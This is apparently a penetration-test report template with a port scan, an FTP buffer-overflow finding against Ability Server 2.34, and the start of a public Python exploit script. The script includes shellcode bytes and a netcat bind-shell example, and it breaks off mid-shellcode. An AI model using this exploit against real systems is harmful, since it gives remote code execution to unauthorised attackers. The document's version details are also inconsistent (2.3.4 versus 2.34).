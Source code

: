 ## Target #1 - 192.168.x.x

### Service Enumeration

**Port Scan Results**

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.1.1       | **TCP**: 21,22,25,80,443

**FTP Enumeration**

_Upon manual enumeration of the available FTP service, Alfred noticed it was running an outdated version 2.3.4 that is prone to the remote buffer overflow vulnerability._

### Initial Access - Buffer Overflow

**Vulnerability Explanation:** Ability Server 2.34 is subject to a buffer overflow vulnerability in STOR field.
Attackers can use this vulnerability to cause arbitrary remote code execution and take completely control over the system.

**Vulnerability Fix:** The publishers of the Ability Server have issued a patch to fix this known issue.
It can be found here: http://www.code-crafters.com/abilityserver/

**Severity:** Critical

**Steps to reproduce the attack:** The operating system was different from the known public exploit.
A rewritten exploit was needed in order for successful code execution to occur. Once the exploit was rewritten, a targeted attack was performed on the system which gave Alfredfull administrative access over the system.

**Proof of Concept Code Here:** Modifications to the existing exploit was needed and is highlighted in red.

```python
###################################
# Ability Server 2.34 FTP STOR Buffer Overflow
# Advanced, secure and easy to use FTP Server.
# 21 Oct 2004 - muts
###################################
# D:\BO>ability-2.34-ftp-stor.py
###################################
# D:\data\tools>nc -v 127.0.0.1 4444
# localhost [127.0.0.1] 4444 (?) open
# Microsoft Windows XP [Version 5.1.2600]
# (C) Copyright 1985-2001 Microsoft Corp.
# D:\Program Files\abilitywebserver>
###################################

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n"
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
```